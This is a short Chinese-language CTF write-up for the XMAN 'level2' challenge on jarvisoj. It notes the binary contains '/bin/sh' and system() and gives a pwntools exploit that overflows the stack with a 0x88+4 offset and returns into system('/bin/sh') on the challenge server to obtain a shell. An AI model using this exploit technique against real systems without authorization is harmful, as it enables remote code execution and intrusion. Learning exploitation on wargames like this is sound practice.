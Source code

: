 # write up 0711

## [XMAN]level2

### 分析：

程序中有/bin/sh字符串和system函数，通过栈溢出返回到构造的shellcode

exp:

```python
from pwn import *

#n = process('./level2')
n = remote('pwn2.jarvisoj.com', 9878)

elf = ELF('./level2')

offset = 0x88 + 4

sh_addr = next(elf.search('/bin/sh'))
sys_addr = elf.symbols["system"]

payload = 'a' * offset + p32(sys_addr) + p32(1) + p32(sh_addr)
n.recv()
n.sendline(payload)
n.interactive()
```


